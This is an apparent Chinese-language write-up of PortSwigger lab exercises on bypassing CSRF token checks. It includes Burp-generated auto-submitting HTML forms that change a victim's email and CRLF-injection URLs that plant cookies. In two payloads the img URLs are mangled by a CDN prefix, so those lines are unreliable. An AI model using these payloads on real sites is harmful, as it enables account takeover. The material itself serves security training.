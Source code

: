 ### CSRF Token 基本原理

CSRF Token 是服务端生成的唯一、随机且不可预测的字符串，用于验证客户端合法校验。

作用：防止攻击者伪造用户身份执行敏感操作（修改密码、转账）。

传输方式：

- 将 CSRF Token 作为隐藏参数包含在 HTML 表单中：

```
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>

提交时数据包：
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com


# 每当用户刷新页面，服务端返回的嵌入在 HTML 里的 CSRF Token 都不一样，确保他的唯一性。
# 在这种情况下，用户构造表单时，构造不出 CSRF Token 的选项，导致攻击失效。
```

- 将 CSRF Token 作为请求头。

我们有时候在爆破时，经常会看见 POST 参数里有一个 CSRF Token，但我们通常会直接忽略它直接进行爆破。因为 CSRF Token 通常不是发一次请求包刷新一次，通常是刷新一次页面刷新一次 CSRF Token。然而爆破的过程中不存在刷新页面得行为，所以 CSRF Token 保持不变就能验证成功。

### CSRF Token 验证缺陷

CSRF 漏洞通常由于 CSRF 令牌验证存在缺陷而导致的。

### 实验：CSRF Token 的校验取决于请求方法

有些应用程序 POST 方式和 GET 方式都支持。且只有 POST 时，才出现 CSRF Token。

操作：利用 GET 方式绕过 CSRF Token 校验。

这里有实验环境，我没有贴出来。

### 实验：CSRF Token 的校验取决于参数是否存在

如果 CSRF Token 相关参数不存在，后端直接忽略 CSRF 校验。

操作：直接删掉整个 CSRF Token 相关参数。

这里有实验环境，我没有贴出来。

### 实验：CSRF Token 没有绑定到用户会话

系统维护了一个全局有效的令牌池，在这个令牌池中的所有令牌都可用于验证任何页面。当用户携带 CSRF Token 访问页面时，仅验证 CSRF Token 是否存在于这个令牌池中，而不验证令牌是否属于当前用户会话。

操作：**受害者利用攻击者的 CSRF Token 访问敏感操作页面。**

案例：假设 wiener 是攻击者，carlos 是受害者。

1. 由于 CSRF Token 是一次性的，所以刷新一次就生成一次 CSRF Token。

![image-20250418154613760](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250418154613760.png)

2. 不要点击 Update email 按钮或刷新，导致一次性 CSRF Token 被使用后被销毁。

3. 制作 payload，并放在攻击者服务器：

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0500a3044f74e280b66795005c0027.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="carlos&#64;anormal&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="iENIDy1zjL1bGlnSkTPkzj0qJqZWJNVb" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

4. 另一个浏览器登录 carlos 后，访问攻击者服务器，发现跳转到如下页面。

![image-20250418154739565](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250418154739565.png)

carlos 使用 wiener 的 CSRF Token：iENIDy1zjL1bGlnSkTPkzj0qJqZWJNVb 修改了邮件地址。

### 实验：CSRF Token 与非会话 Cookie 绑定

某些情况下，可用户 CSRF Token 绑定的并不是 Cookie 中的会话，而可能是一个其他值（如 Cookie 中的 CSRF Key）。当 Web 应用程序使用不同框架时（例如 Session 由 A 框架管理，而 CSRF Token 由框架 B 管理），这种情况下，很容易发生 CSRF Token 绑定的不是用户 Session，而是由框架 B 生成的其他值（如：CSRF Key）。

操作：**受害者利用攻击者提供的 CSRF Key 和 CSRF Token 访问敏感操作页面。**

案例：假设 wiener 是攻击者，carlos 是受害者。

1. 登录 wiener 账户，抓包获取到 CSRF Key 和 CSRF Token。

![image-20250418161842327](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250418161842327.png)

```
csrfKey=Zs1bhmXpaCabAPQZ6yuzpOraV1say5tB
value=QTazbIFt8aQFvTqtfDAzEfTLOT6cD6g0
```

2. 不要点击 Update email 按钮或刷新，导致一次性 CSRF Token 被使用后被销毁。

3. 制作 payload，执行如下操作。
   - 第一次 CSRF 攻击结合 CRLF 漏洞：将 Zs1bhmXpaCabAPQZ6yuzpOraV1say5tB 设置为受害者 Cookie 中的 csrfKey。
   - 第二次 CSRF 攻击：利用 QTazbIFt8aQFvTqtfDAzEfTLOT6cD6g0 的 CSRF Token 访问敏感操作页面。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aed003603a840fa80c8031c003b0014.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="carlos&#64;a&#45;montoya&#46;net" />
      <input type="hidden" name="csrf" value="QTazbIFt8aQFvTqtfDAzEfTLOT6cD6g0" />
      <input type="submit" value="Submit request" />
    </form>
    <!-- 利用此网站没有 CSRF Token 保护的页面注入 CSRF Key（第一次 CSRF 攻击），之后提交表单（第二次 CSRF 攻击） -->
    <img src="https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/https://0aed003603a840fa80c8031c003b0014.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=Zs1bhmXpaCabAPQZ6yuzpOraV1say5tB%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

4. 另一个浏览器登录 carlos 后，访问攻击者服务器。

![image-20250418164104957](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250418164104957.png)

### 实验：CSRF Token 只在 Cookie 中复制（双重提交场景）

双重提交：

服务端生成 CSRF Token 后，将 Token 存储在 Cookie 中（如：csrf=CSRF Token），同时将 CSRF_Token 嵌入表单中。

校验 CSRF Token 时，仅判断 Cookie 中的 CSRF Token 和 表单提交的 CSRF Token 是否一致，不验证令牌是否由服务端生成或是否有效。

操作：**受害者利用攻击者生成任意 CSRF Token 访问敏感页面。** 

案例：

1. 制作 payload，执行如下操作。

   - 随意生成一个 CSRF Token。

   - 第一次 CSRF 攻击结合 CRLF 漏洞：将生成的 CSRF Token 设置为受害者的 Cookie 中的 CSRF。
   - 第二次 CSRF 攻击：利用 CSRF Token 作为参数访问敏感操作页面。
   - CSRF Token 验证：仅仅验证 Cookie 中的 CSRF Token 和 表单提交的 CSRF Token 是否一致。

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aed003603a840fa80c8031c003b0014.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="carlos&#64;a&#45;montoya&#46;net" />
      <input type="hidden" name="csrf" value="Zs1bhmXpaCabAPQZ6yuzpOraV1say5tB" />
      <input type="submit" value="Submit request" />
    </form>
    <!-- 利用此网站没有 CSRF Token 保护的页面注入 CSRF Key（第一次 CSRF 攻击），之后提交表单（第二次 CSRF 攻击） -->
    <img src="https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/https://0aed003603a840fa80c8031c003b0014.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=Zs1bhmXpaCabAPQZ6yuzpOraV1say5tB%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

##### "CSRF Token 与非会话 Cookie 绑定" 和 "CSRF Token 只在 Cookie 中复制（双重提交场景）" 这两个场景使用到了 CRLF 注入漏洞

```
get 参数：test%0d%0aSet-Cookie:%20csrf=Zs1bhmXpaCabAPQZ6yuzpOraV1say5tB%3b%20SameSite=None

CRLF 注入后的 get 参数，导致 Set-Cookie 被当作请求头解析：
test\r\n
Set-Cookie: csrf=Zs1bhmXpaCabAPQZ6yuzpOraV1say5tB; SameSite=None
```

![image-20250418171909030](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250418171909030.png)

如上图，左侧请求中间响应，右侧 CRLF 注入后的参数。